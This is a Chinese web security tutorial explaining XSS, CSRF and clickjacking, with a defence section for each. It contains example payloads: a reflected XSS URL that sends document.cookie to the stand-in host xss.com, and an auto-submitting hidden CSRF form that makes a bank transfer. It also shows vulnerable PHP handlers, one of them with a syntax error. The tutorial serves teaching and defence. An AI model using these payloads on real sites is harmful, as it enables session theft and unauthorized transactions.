








# Web安全的三个攻防姿势

> 作者：zwwill_木羽

> 来自：[https://segmentfault.com/a/1190000011601837](https://segmentfault.com/a/1190000011601837)

> 关于Web安全的问题，是一个老生常谈的问题，作为离用户最近的一层，我们大前端确实需要把手伸的更远一点。

我们最常见的Web安全攻击有以下几种

1. XSS 跨站脚本攻击
2. CSRF 跨站请求伪造
3. clickjacking 点击劫持/UI-覆盖攻击

下面我们来一一分析

## XSS 跨站脚本攻击

> 跨站脚本攻击（Cross Site Scripting），为了不和层叠样式表（Cascading Style Sheets, CSS）的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

分类

1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

### Reflected XSS（基于反射的XSS攻击）

主要通过利用系统反馈行为漏洞，并欺骗用户主动触发，从而发起Web攻击。

举个栗子：

1- 假设，在严选网站搜索商品，当搜索不到时站点会做“xxx未上架提示”。如下图。



2- 在搜索框搜索内容，填入`<script>alert('xss')</script>`, 点击搜索。

3- 当前端页面没有对填入的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。


以上3步只是“自娱自乐”，XSS最关键的是第四步。

4- 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
```
http://you.163.com/search?keyword=<script>document.location='http://xss.com/get?cookie='+document.cookie</script>
```

5- 如果受骗的用户刚好已经登录过严选网站，那么，用户的登录cookie信息就已经发到了攻击者的服务器（xss.com）了。当然，攻击者会做一些更过分的操作。

### Stored XSS（基于存储的XSS攻击）

Stored XSS和Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

再举个栗子：

1- 发一篇文章，里面包含了恶意脚本
```
你好！当你看到这段文字时，你的信息已经不安全了！<script>alert('xss')</script>
```

2- 后端没有对文章进行过滤，直接保存文章内容到数据库。

3- 当其他读者看这篇文章的时候，包含的恶意脚本就会执行。

> tips：文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。
> 此为题多从在于博客网站。

如果我们的操作不仅仅是弹出一个信息，而且删除一篇文章，发一篇反动的文章，或者成为我的粉丝并且将这篇带有恶意脚本的文章转发，这样是不是就具有了攻击性。

### DOM-based or local XSS（基于DOM或本地的XSS攻击）

DOM，全称Document Object Model，是一个平台和语言都中立的接口，可以使程序和脚本能够动态访问和更新文档的内容、结构以及样式。

DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。

> 可能触发DOM型XSS的属性：

>> document.referer属性

>> window.name属性

>> location属性

>> innerHTML属性

>> documen.write属性

>> ······

### 总结

XSS攻击的本质就是，利用一切手段在目标用户的浏览器中执行攻击脚本。

### 防范

对于一切用户的输入、输出、客户端的输出内容视为不可信，在数据添加到DOM或者执行了DOM API的时候，我们需要对内容进行HtmlEncode或JavaScriptEncode，以预防XSS攻击。

## CSRF 跨站请求伪造

> CSRF（Cross-site request forgery）跨站请求伪造，也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。与XSS攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比XSS更具危险性。但往往同XSS一同作案！

此下的详解部分转自[hyddd的博文](http://www.cnblogs.com/hyddd)，示例写的很赞就部分誊抄至此，并做了一定的修改，向作者hyddd致敬&致谢。

### CSRF可以做什么？

你这可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。

### CSRF漏洞现状

CSRF这种攻击方式在2000年已经被国外的安全人员提出，但在国内，直到06年才开始被关注，08年，国内外的多个大型社区和交互网站分别爆出CSRF漏洞，如：

NYTimes.com（纽约时报）、Metafilter（一个大型的BLOG网站），YouTube和百度HI......而现在，互联网上的许多站点仍对此毫无防备，以至于安全业界称CSRF为“沉睡的巨人”。

### CSRF的原理

下图简单阐述了CSRF攻击的思想



从上图可以看出，要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1. 登录受信任网站A，并在本地生成Cookie。

2. 在不登出A的情况下，访问危险网站B。

看到这里，你也许会说：“如果我不满足以上两个条件中的一个，我就不会受到CSRF的攻击”。是的，确实如此，但你不能保证以下情况不会发生：

1. 你不能保证你登录了一个网站后，不再打开一个tab页面并访问另外的网站。

2. 你不能保证你关闭浏览器了后，你本地的Cookie立刻过期，你上次的会话已经结束。（事实上，关闭浏览器不能结束一个会话，但大多数人都会错误的认为关闭浏览器就等于退出登录/结束会话了......）

3. 上图中所谓的攻击网站，可能是一个存在其他漏洞的可信任的经常被人访问的网站。

### 示例

上面大概地讲了一下CSRF攻击的思想，下面我将用几个例子详细说说具体的CSRF攻击，这里我以一个银行转账的操作作为例子（仅仅是例子，真实的银行网站没这么傻:>）

示例1

银行网站A，它以GET请求来完成银行转账的操作，如：http://www.mybank.com/Transfe...

危险网站B，它里面有一段HTML的代码如下：
```

```

首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块......

为什么会这样呢？原因是银行网站A违反了HTTP规范，使用GET请求更新资源。在访问危险网站B的之前，你已经登录了银行网站A，而B中的``以GET的方式请求第三方资源（这里的第三方就是指银行网站了，原本这是一个合法的请求，但这里被不法分子利用了），所以你的浏览器会带上你的银行网站A的Cookie发出Get请求，去获取资源
```
http://www.mybank.com/Transfer.php?toBankId=11&money=1000
```

结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作......

示例2

为了杜绝上面的问题，银行决定改用POST请求完成转账操作。

银行网站A的WEB表单如下：
```
<form action="Transfer.php" method="POST">
    <p>ToBankId: <input type="text" name="toBankId" /></p>
    <p>Money: <input type="text" name="money" /></p>
    <p><input type="submit" value="Transfer" /></p>
</form>
```

后台处理页面Transfer.php如下：
```
<?php
    session_start();
    if (isset($_REQUEST['toBankId'] &&　isset($_REQUEST['money']))
    {
        buy_stocks($_REQUEST['toBankId'],　$_REQUEST['money']);
    }
?>
```

危险网站B，仍然只是包含那句HTML代码：
```

```

和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....和示例1一样，你再次没了1000块～T_T，这次事故的原因是：银行后台使用了$_REQUEST去获取请求的数据，而$_REQUEST既可以获取GET请求的数据，也可以获取POST请求的数据，这就造成了在后台处理程序无法区分这到底是GET请求的数据还是POST请求的数据。在PHP中，可以使用$_GET和$_POST分别获取GET请求和POST请求的数据。在JAVA中，用于获取请求数据request一样存在不能区分GET请求数据和POST数据的问题。

示例3

经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用$_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：
```
<?php
    session_start();
    if (isset($_POST['toBankId'] &&　isset($_POST['money']))
    {
        buy_stocks($_POST['toBankId'],　$_POST['money']);
    }
?>
```

然而，危险网站B与时俱进，它改了一下代码：
```
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```

如果用户仍是继续上面的操作，很不幸，结果将会是再次不见1000块......因为这里危险网站B暗地里发送了POST请求到银行!
　　
总结一下上面3个例子，CSRF主要的攻击模式基本上是以上的3种，其中以第1,2种最为严重，因为触发条件很简单，一个就可以了，而第3种比较麻烦，需要使用JavaScript，所以使用的机会会比前面的少很多，但无论是哪种情况，只要触发了CSRF攻击，后果都有可能很严重。
　　
理解上面的3种攻击模式，其实可以看出，CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！

### 当前防御 CSRF 的几种策略

在业界目前防御 CSRF 攻击主要有三种策略：验证 HTTP Referer 字段；在请求地址中添加 token 并验证；在 HTTP 头中自定义属性并验证。下面就分别对这三种策略进行详细介绍。

#### 验证 HTTP Referer 字段

利用HTTP头中的Referer判断请求来源是否合法。

优点：简单易行，只需要在最后给所有安全敏感的请求统一增加一个拦截器来检查 Referer 的值就可以。特别是对于当前现有的系统，不需要改变当前系统的任何已有代码和逻辑，没有风险，非常便捷。

缺点：
1. Referer 的值是由浏览器提供的，不可全信，低版本浏览器下Referer存在伪造风险。
2. 用户自己可以设置浏览器使其在发送请求时不再提供 Referer时，网站将拒绝合法用户的访问。

#### 在请求地址中添加 token 并验证

在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中，以HTTP请求参数的形式加入一个随机产生的 token交由服务端验证

优点：比检查 Referer 要安全一些，并且不涉及用户隐私。

缺点：对所有请求都添加token比较困难，难以保证 token 本身的安全，依然会被利用获取到token

#### 在 HTTP 头中自定义属性并验证+One-Time Tokens

将token放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 的异步请求交由后端校验，并且一次有效。

优点：统一管理token输入输出，可以保证token的安全性

缺点：有局限性，无法在非异步的请求上实施

## 点击劫持

点击劫持，英文名clickjacking，也叫UI覆盖攻击，攻击者会利用一个或多个透明或不透明的层来诱骗用户支持点击按钮的操作，而实际的点击确实用户看不到的一个按钮，从而达到在用户不知情的情况下实施攻击。

这种攻击方式的关键在于可以实现页中页的`<iframe />`标签，并且可以使用css样式表将他不可见



如以上示意图的蓝色层，攻击者会通过一定的手段诱惑用户“在红色层”输入信息，但用户实际上实在蓝色层中，以此做欺骗行为。

### 拿支付宝做个栗子



上图是支付宝手机话费充值的界面。

再看看一下界面



是的，这个是我伪造的，如果我将真正的充值站点隐藏在此界面上方。我想，聪明的你已经知道clickjacking的危险性了。



上图我估计做了一下错位和降低透明度，是不是很有意思呢？傻傻分不清的用户还以为是领取了奖品，其实是给陌生人充值了话费。

这种方法最常见的攻击场景是伪造一些网站盗取帐号信息，如支付宝、QQ、网易帐号等帐号的账密






目前，clickjacking还算比较冷门，很多安全意识不强的网站还未着手做clickjacking的防范。这是很危险的。

### 防范

防止点击劫持有两种主要方法：

#### X-FRAME-OPTIONS

X-FRAME-OPTIONS是微软提出的一个http头，指示浏览器不允许从其他域进行取景，专门用来防御利用iframe嵌套的点击劫持攻击。并且在IE8、Firefox3.6、Chrome4以上的版本均能很好的支持。

> 这个头有三个值： 

>> DENY // 拒绝任何域加载 

>> SAMEORIGIN // 允许同源域下加载 

>> ALLOW-FROM // 可以定义允许frame加载的页面地址

#### 顶层判断

在UI中采用防御性代码，以确保当前帧是最顶层的窗口

方法有多中，如
```
top != self || top.location != self.location || top.location != location
```

有关Clickjacking防御的更多信息，请参阅[Clickjacking Defense Cheat Sheet](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/).

## 参考

> [1] [浅谈CSRF攻击方式](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

> [2] [CSRF 攻击的应对之道](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)